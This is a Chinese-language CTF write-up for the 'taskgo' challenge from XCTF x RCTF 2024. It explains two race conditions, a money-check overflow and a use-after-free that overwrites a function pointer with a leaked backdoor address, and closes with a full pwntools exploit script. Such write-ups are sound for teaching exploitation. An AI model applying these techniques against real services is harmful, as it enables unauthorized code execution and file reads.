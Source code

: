 # taskgo 

From XCTF x RCTF 2024

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |on    |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序里编译了一个chromium的工具集进去，逆向压力猛增

主要利用了2个条件竞争：

### 第一处

在`CheckMoney`中，函数会先检查玩家的钱是否足够，然后sleep 1秒再扣除，
那么尝试让2次扣钱的操作同时检查，就可以同时扣除，溢出money成一个很大的值

具体来说，是同时买 *Silver Boat* 和 *Flame Scroll*

动调来看，进入Rapid Advance分支后买东西是由`PostTask`发起的，
在IOThread中运行；进入Magic Castle分支买东西在主线程中运行，
故存在条件竞争

![rc1](../assets/taskgo1.png)

要先买船！要不然买法卷会阻塞输入线程导致无法同时买船

### 获取`BackDoor`

通过交叉引用不难看出程序中`Log`函数输出了`BackDoor`，`BackDoor`可以读取文件：
参数是`basic_string`，内容是玩家名字，将文件打开并输出，而参数设置在调用`Log`时完成

要想获取`BackDoor`的地址，只需要购买三种法卷并学习，然后在Magic Castle分支输入1337，
亦即执行`Gods`函数

chromium的std字符串与llvm的libc++中的std字符串一致，这是它的结构：

```c
  struct __long { // if string longer than 23 (including \0)
    char *__data_;
    size_t __size_;
    size_t __cap_ : sizeof(size_t) * 8 - 1;
    size_t __is_long_ : 1;
  };

  struct __short { // if string shorter than 23
    value_type __data_[23];
    unsigned char __size_    : 7;
    unsigned char __is_long_ : 1; // bit field to tag which type is used
  };

  struct basic_string {
    union {
      __long __l;
      __short __s;
    }
  };
```

### 第二处

可以注意到在执行`Gods`前提示等待5s，可能这里也能利用

具体来说，主线程运行到`$rebase(0x4ab8f)`时，post delayed task，
把要运行的函数`Gods`和它的参数`MagicHeld *held`存到`OnceCallback`中，
然后等待3,000,000 **微秒** 后交给IOThread来运行，而`Log`的函数指针，
正好存放在`held`上

在`OnceCallback`中，0x20处存放了要运行的函数指针，0x30处则存放了参数，
这个参数写入了以后就保持不变

已知`DropMS`可以释放`held`，在买了木船后触发`FiveStar`读取用户输入，
随后触发`NoteStar`分配一个输入的内容大小的堆块并将输入的字符串复制上去

在`$rebase(0x4c658)`的位置还可以看到给`held`分配的大小为0x30，
那么只要我们的输入长度与0x30一致，就可以将刚释放的堆块拿回来写入

基于以上思考，我们就可以得出利用链了：

![exp chain](../assets/taskgo2.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './taskgo'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x4b82b)\nc')

    sh.sendline(b'flag') # username
    dbg()
    # buy $1000 silver boat
    sh.sendline(b'1')
    sh.sendline(b'2')
    # buy $10000 flame scroll
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger race condition
    sleep(1.25)
    recv = sh.recv()
    if b'4294' in recv:
        success('money value is overflowed')
    else:
        warn('fail to overflow money')
        sh.close()
        return 0

    FLAME_SCORLL = b'1'
    WATER_SCROLL = b'2'
    STONE_SCROLL = b'3'
    def learnMagic(scroll:bytes, skip:bool=False):
        if not skip:
            # buy scroll
            sh.sendline(b'2')
            sh.sendline(b'1')
            sh.sendline(scroll)
        # learn
        sh.sendline(b'2')
        sh.sendline(b'3')
        # drop the scroll
        sh.sendline(b'2')
        sh.sendline(b'2')
    learnMagic(FLAME_SCORLL, True)
    learnMagic(WATER_SCROLL)
    learnMagic(STONE_SCROLL)
    info('learned 3 magics')

    # buy ms first so we can use "1337"
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger Gods
    sh.sendline(b'2')
    sh.sendline(b'1337')
    sh.recvuntil(b'gift: ')
    backdoor = int(sh.recvline(), 16)
    success(f'Get BackDoor addr: {backdoor:#x}')
    
    # dbg()
    info('syncing program flow...')
    sleep(2)
    # trigger Gods, 3s to do what we want
    sh.sendline(b'2')
    sh.sendline(b'1337')

    # release held pointer
    sh.sendline(b'2')
    sh.sendline(b'2')
    # buy a wooden boat to invoke five-star
    sh.sendline(b'1')
    sh.sendline(b'1')

    # trigger five-star
    info('wait 1s so that we can get into FiveStar')
    sleep(1.5)
    sh.sendline(b'3')
    # alloc held back and overwrite it
    sh.sendlineafter(b'five-star', b'0'*0x28 + p64(backdoor))

    sh.recvuntil(b'RCTF{')
    success(f'Flag is: {"RCTF{"}{sh.recvuntil(b"}").decode()}')
    sh.close()
```
